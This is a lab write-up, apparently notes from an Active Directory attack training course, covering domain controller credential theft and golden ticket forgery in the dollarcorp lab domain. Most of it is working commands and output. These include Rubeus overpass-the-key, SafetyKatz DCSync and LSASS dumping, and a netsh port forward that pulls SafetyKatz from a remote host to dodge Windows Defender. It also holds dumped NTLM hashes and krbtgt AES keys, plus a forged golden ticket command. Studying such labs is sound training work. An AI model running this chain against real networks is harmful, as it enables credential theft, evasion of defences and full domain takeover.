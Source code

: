 # **i)Extract secrets from the domain controller of dollarcorp.ii)Using the secrets of krbtgt account, create a Golden ticket.iii)Use the Golden ticket to (once again) get domain admin privileges from a machine.**

i)
Get the shell of domain admin here svc using the overpass the key attack
```C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt```

There are two ways of extracting creadentials from DC
1]DC Sync attack
2]lsass credential extraction

First we move on with DC Sync,, for doing dcsync we need priv of da,ea,domaincontrollers here we have DA priv
so in the svc admin shell run dcsync:```C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"```
O/P:
![alt text](image-44.png)
we get both ntlm and aes of krbtgt account,,we can use it to do ticket attacks

Second extracting the credentials from the memory of the DC:
for that we need to download and run safetykatz in memory of DC so copy loader to dc: ```echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe /Y```
connect to dc as svc admin:```winrs -r:dcorp-dc cmd```
set portforwarding in dc to download safetykatz form remote location without detected by windows defender
command:```>netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.219```
Start to extract creds from memory of DC
command:```C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "lsadump::evasive-lsa /patch" "exit"```
O\P:only contains the ntlm hashes if we want aes then do dc sync
mimikatz(commandline) # lsadump::evasive-lsa /patch
Domain : dcorp / S-1-5-21-719815819-3726368948-3917688648

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : af0686cc0ca8f04df42210c9ac980760

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : 4e9815869d2090ccfca61c1fe0d23986

RID  : 00000459 (1113)
User : sqladmin
LM   :
NTLM : 07e8be316e3da9a042a9cb681df19bf5

RID  : 0000045a (1114)
User : websvc
LM   :
NTLM : cc098f204c5887eaa8253e7c2749156f

RID  : 0000045b (1115)
User : srvadmin
LM   :
NTLM : a98e18228819e8eec3dfa33cb68b0728

RID  : 0000045d (1117)
User : appadmin
LM   :
NTLM : d549831a955fee51a43c83efb3928fa7

RID  : 0000045e (1118)
User : svcadmin
LM   :
NTLM : b38ff50264b74508085d82c69794a4d8

RID  : 0000045f (1119)
User : testda
LM   :
NTLM : a16452f790729fa34e8f3a08f234a82c

RID  : 00000460 (1120)
User : mgmtadmin
LM   :
NTLM : 95e2cd7ff77379e34c6e46265e75d754

RID  : 00000461 (1121)
User : ciadmin
LM   :
NTLM : e08253add90dccf1a208523d02998c3d

RID  : 00000462 (1122)
User : sql1admin
LM   :
NTLM : e999ae4bd06932620a1e78d2112138c6

RID  : 00001055 (4181)
User : studentadmin
LM   :
NTLM : d1254f303421d3cdbdc4c73a5bce0201

RID  : 000042cd (17101)
User : devopsadmin
LM   :
NTLM : 63abbf0737c59a3142175b1665cd51ee


RID  : 000003e8 (1000)
User : DCORP-DC$
LM   :
NTLM : f37197322251094aca100d3a0afbd3ef

RID  : 00000451 (1105)
User : DCORP-ADMINSRV$
LM   :
NTLM : b5f451985fd34d58d5120816d31b5565

RID  : 00000452 (1106)
User : DCORP-APPSRV$
LM   :
NTLM : b4cb7bf8b93c78b8051c7906bb054dc5

RID  : 00000453 (1107)
User : DCORP-CI$
LM   :
NTLM : b1cbc9af67737527f94a9455edd13347

RID  : 00000454 (1108)
User : DCORP-MGMT$
LM   :
NTLM : 0878da540f45b31b974f73312c18e754

RID  : 00000455 (1109)
User : DCORP-MSSQL$
LM   :
NTLM : b205f1ca05bedace801893d6aa5aca27

RID  : 00000456 (1110)
User : DCORP-SQL1$
LM   :
NTLM : 3686dfb420dc0f9635e70c6ca5875b49


RID  : 0000044f (1103)
User : mcorp$
LM   :
NTLM : 84dac7048c7c9fdd79911a62e5620e81

RID  : 00000450 (1104)
User : US$
LM   :
NTLM : ba8bebb8297a374ae2e531d16dc90298

RID  : 00000458 (1112)
User : ecorp$
LM   :
NTLM : c70bd4a427e9decd8c9135299c63226e

ii) and iii)creating golden ticket attack and gettig domain admin priv
using the aes key of krbtgt account obtained by dcsync atttack we can forge a golden ticket
run the below command in student vm shell without invishell
command:```C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-golden /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /printcmd```
O/P:
C:\AD\Tools\Loader.exe Evasive-Golden /aes256:154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848 /user:Administrator /id:500 /pgid:513 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /pwdlastset:"11/11/2022 6:34:22 AM" /logoncount:1087 /netbios:dcorp /groups:544,512,520,513 /dc:DCORP-DC.dollarcorp.moneycorp.local /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD

in the above output generated add -path C:\AD\Tools\Rubeus.exe -args in the begining after Loader.exe and in the end add /ptt to inject forged ticket in current session.
after adding the command should look like this:
```C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args Evasive-Golden /aes256:154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848 /user:Administrator /id:500 /pgid:513 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /pwdlastset:"11/11/2022 6:34:22 AM" /logoncount:1087 /netbios:dcorp /groups:544,512,520,513 /dc:DCORP-DC.dollarcorp.moneycorp.local /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD /ptt```
run the command so that the forged ticket will be imported.
After that login to dc as Administrator using the forged golden ticket
```winrs -r:dcorp-dc cmd```
then check username and computername
![alt text](image-45.png)




